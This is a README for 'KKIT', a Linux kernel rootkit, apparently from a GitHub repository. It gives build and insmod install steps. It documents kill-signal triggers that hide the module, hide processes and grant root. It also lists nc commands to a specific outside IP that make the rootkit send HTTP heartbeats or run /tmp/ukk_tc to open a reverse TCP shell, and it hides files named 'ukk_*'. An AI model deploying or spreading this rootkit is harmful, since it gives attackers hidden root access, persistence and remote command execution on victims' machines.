 # KKIT
A Linux Kernel RootKit

## Install
```shell
make

insmod kkit.ko
```

## USE
### hide/show the module:
```shell
kill -62 0
```
### hide/show process:
```shell
kill -60 pid
```
### getroot:
```shell
kill -61 0
```
### heartbeat
Trigger to send a http request:
```shell
# Server:
nc -p 1338 120.46.219.162 50005 -u
fdsfasd
```
If the kkit received a udp packet sended from 1338 port to 50005 port, the kkit will send a http packet to the targeted server ip
```shell
#server:
python3 -m http.server 50002
```
### exec_cmd

```shell
#Server
nc -p 1339 120.46.219.162 50005 -u
fsdfsdaf
```
If the kkit received a udp packet sended from 1339 port to 50005 port, the kkit will exexcve /tmp/ukk_tc
If the ukk_tc is a binary will establish reverse tcp connection, the kkit can establish reverse tcp connection

### debug_mode
If want to see the running debug log:
```shell
#Server
nc -p 1340 120.46.219.162 50005 -u
fsdfsdaf
```

### hide file
If the filename is "ukk_*", the file will be hided.


